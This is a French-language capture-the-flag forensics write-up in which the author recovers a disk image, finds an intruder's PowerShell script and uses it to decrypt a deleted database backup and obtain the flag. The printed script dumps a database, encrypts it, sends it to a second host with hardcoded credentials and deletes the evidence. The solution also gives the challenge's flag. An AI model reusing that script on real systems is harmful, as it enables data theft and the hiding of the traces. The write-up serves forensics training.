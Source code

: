 # iDisk - 150 points

![](https://i.imgur.com/x5K1k3R.png)

Dans ce challenge on nous file un fichier compressé contenant une image disque.

On va donc analyser l'image disque, pour cela on va extraire les dossiers qu'il contient avec testdisk.

```
$ testdisk forensic.dd
```

Maintenant relisons l'énnoncé, l'intrusion ce passe dans l'entreprise `ECORP`.

On va donc chercher dans le répertoire contenant tout les fichiers de l'image disque `forensic.dd`, un fichier contenant le nom `ECORP` :

```

$ grep -r ECORP .
Fichier binaire ./pagefile.sys correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.316_none_810c351a77dd1c84/sysmain.sdb correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.475_none_80ca572e780ea7fa/sysmain.sdb correspondant
./Windows/System32/backup.ps1:$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force


[...]
```

On a plusieurs fichiers contenant le nom ``ECORP``, dont un : `./Windows/System32/backup.ps1`, qui semble interessant.

On va par conséquence lire le contenu de celui-ci :

```
$ cat ./Windows/System32/backup.ps1
# Connect to the remote server 
$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("root", $password)

$s = New-PSSession -ComputerName DESKTOP-GD806IG -Credential $Cred


# Backup the confidential database muahahaha
Invoke-Command -Session $s -ScriptBlock { Backup-SqlDatabase -ServerInstance "DESKTOP-GD806IG" -Database "pre_prod" -BackupFile "C:\Users\root\Documents\db_backup.bak" }

# Encrypt the dump
Invoke-Command -Session $s -ScriptBlock { cd "C:\Program Files\OpenSSL-Win64\bin"; .\openssl.exe aes-256-cbc -in C:\Users\root\Documents\db_backup.bak -out C:\Users\root\Documents\db_backup.bak.enc -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756 }

# Create a compressed archive of the backup
Invoke-Command -Session $s -ScriptBlock { C:\Users\root\Downloads\7z1900-extra\7za.exe a -v1m "C:\Users\root\Documents\db_backup.zip" "C:\Users\root\Documents\db_backup.bak.enc"}

# Download the archive
Invoke-Command -Session $s -ScriptBlock {$myPassword = ConvertTo-SecureString "Test1234" -AsPlainText -Force; $myCreds = New-Object System.Management.Automation.PSCredential ("DESKTOP-RD0QA0B\Skiddy", $myPassword); $mySession = New-PSSession -ComputerName "DESKTOP-RD0QA0B" -Credential $myCreds; Copy-Item -Path C:\Users\root\Documents\db_backup.zip* -Destination 'C:\Users\Skiddy\Music\Jazz' -ToSession $mySession }

# Copy the files to an external drive
cp C:\Users\Skiddy\Music\Jazz\db_backup.zip* E:\Backups

# Cleanup 
rm C:\Users\Skiddy\Music\Jazz\*

```

On peut voir grâce à ce script powershell, qu'un backup de la DB ``pre_prod`` à certainement était réalisé. Il se nommerait `db_backup`  et a été chiffré via openssl en AES 256 CBC, ayant pour IV : `48bb06a87601bcf63228f2e06dfe72b6` et pour Clé : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756`.

Malheureusement après avoir utiliser la commande ``find -name db_backup*`` à la racine du disque windows, aucun fichier de ce nom n'a était trouvé, tout simplement car celui-ci a été supprimé.

On va donc utiliser Autopsy pour tenter de retrouver le fichier supprimé :

![](https://i.imgur.com/C2SBzek.png)

On se rend compte que plusieurs fichiers ce nomme `db_backup.zip` avec un chiffre différent lui étant associé.

Le fichier backup principale à donc certainement était splité en 4 parties.

On va donc récupérer les 4 fichiers `db_backup.zip`.

Une fois cela fait il suffit de copier le contenu des 4 fichiers dans l'ordre croissant dans un seul fichier et unzip le fichier  : 

```
$ cat db_backup.zip.00* > db.zip

$ file db.zip
db: Zip archive data, at least v1.0 to extract

$ unzip db.zip 
Archive:  db.zip
 extracting: db_backup.bak.enc       

```

Une fois cela fait on voit que `db_backup` est chiffré, il sufft de le déchiffrer avec openssl et le faire avec le chiffrement : `AES 256 CBC` , l'IV : `48bb06a87601bcf63228f2e06dfe72b6` et la clé  : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756` puis chercher `DGA{` avec `grep`:

```
$ openssl aes-256-cbc -d -in db_backup.bak.enc -out db_backup.bak -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756
$ strings db_backup.bak|grep DGA{
DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}}
```

Bingo, on peut valider le challenge avec le flag : `DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}` !!


